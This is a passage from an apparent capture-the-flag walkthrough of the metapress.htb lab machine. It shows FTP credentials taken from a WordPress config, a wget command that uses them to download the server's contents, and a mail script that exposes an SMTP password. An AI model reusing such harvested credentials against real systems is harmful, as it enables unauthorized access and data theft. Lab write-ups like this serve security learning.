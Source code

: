     define( 'FS_METHOD', 'ftpext' );
    define( 'FTP_USER', 'metapress.htb' );
    define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
    define( 'FTP_HOST', 'ftp.metapress.htb' );
    define( 'FTP_BASE', 'blog/' );
    define( 'FTP_SSL', false );
    ```

    I try the FTP credentials on the machine and bingo!

- Now that I can see the contents of the FTP server, I download all the files present with the command: `wget -r --user="metapress.htb" --password="9NYS_ii@FyL_p5M2NvJ" ftp://ftp.metapress.htb/`

    In the `blog` folder there seems to be exactly the website I have already seen

    In the `mailer` folder there is the **PHPMailer** plugin and the `send_email.php` file

    ```php
    <?php
    /*
    * This script will be used to send an email to all our users when ready for launch
    */

    use PHPMailer\PHPMailer\PHPMailer;
    use PHPMailer\PHPMailer\SMTP;
    use PHPMailer\PHPMailer\Exception;

    require 'PHPMailer/src/Exception.php';
    require 'PHPMailer/src/PHPMailer.php';
    require 'PHPMailer/src/SMTP.php';

    $mail = new PHPMailer(true);

    $mail->SMTPDebug = 3;                               
    $mail->isSMTP();            

    $mail->Host = "mail.metapress.htb";
    $mail->SMTPAuth = true;                          
    $mail->Username = "jnelson@metapress.htb";                 
    $mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
    $mail->SMTPSecure = "tls";                           
    $mail->Port = 587;                                   

    $mail->From = "jnelson@metapress.htb";
    $mail->FromName = "James Nelson";

    $mail->addAddress("info@metapress.htb");

    $mail->isHTML(true);

    $mail->Subject = "Startup";
    $mail->Body = "<i>We just started our new blog metapress.htb!</i>";

    try {
        $mail->send();
        echo "Message has been sent successfully";
    } catch (Exception $e) {
        echo "Mailer Error: " . $mail->ErrorInfo;
    }
    ```
